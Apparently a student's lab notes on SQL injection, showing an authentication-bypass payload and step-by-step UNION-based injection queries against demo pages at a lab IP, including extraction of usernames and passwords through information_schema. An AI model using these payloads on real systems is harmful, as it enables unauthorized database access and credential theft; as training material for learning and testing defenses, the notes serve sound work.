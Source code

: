 # Injecting
* SELECT id FROM users WHERE name=‘[tom' OR 1='1’ AND pass=‘tom' OR 1='1’]
  - You are forcing a boolean that will result in true into the user and password variable
### SQL Injecting Demo / authentication bypass
```
' OR 1='1
# Once we got in, we opened the developer console (inspect) and found a username variable
# Make sure to click the radio button to see information in RAW format
# We then copied that variable added a "?" to the url because we are passing information and pasted the variable
# After doing this we were shown usernames and passwords in that variable
```
### Demo POST (text box)
1. Identify vulnerable field
2. Identify number of columns
3. Craft the golden statement
4. Craft the query
5. Craft Queries
```
# step 1Identify vulnerable field
Audi' OR 1='1

# step 2 Identify Columns
Audi' UNION SELECT 1,2,3,4,5 #     5 columns 

# step 3 Create Golden Statement
Audi ' UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns #    because we want 3 columns we need 2 and 5 as placeholders
[Audi ' UNION SELECT <column>,<column>,<column> FROM database.table #

# step 4/5 Craft Query
Audi ' UNION SELECT studentID,2,username,passwd,5 FROM session.userinfo #
Audi ' UNION SELECT id,2,name,pass,5 FROM session.user #
Audi ' UNION SELECT username,2,passwd,jump,5 FROM session.userinfo #
Audi ' UNION SELECT tireid,2,size,cost,5 FROM session.Tires #
Audi ' UNION SELECT carid,name,color,cost,5 FROM sessin.car #         wont shoow column 2 due to it being hidden
```
## use placeholders when there are more columns than values youre looking for 
### DEMO GET (search bar) USE MORE
```
http://10.50.29.140/uniondemo.php?Selection=1&Submit=Submit      replace submit=submit
# In the search bar replace & with:
OR 1=1

# Identify vulnerable field (selection 2)
?Selection=3 UNION SELECT 1,2,3

# Identify number of columns (3, displayed in 1,3,2 order)
?Selection=3 UNION SELECT 1,2,3

# Golden Statement order displayed in 1,3,2
?Selection=3 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns

?Selection=3 UNION SELECT id,pass,name FROM session.user

' union select @@version #- this gets the version of the database (put as a value like color or size n the left side of statement 

```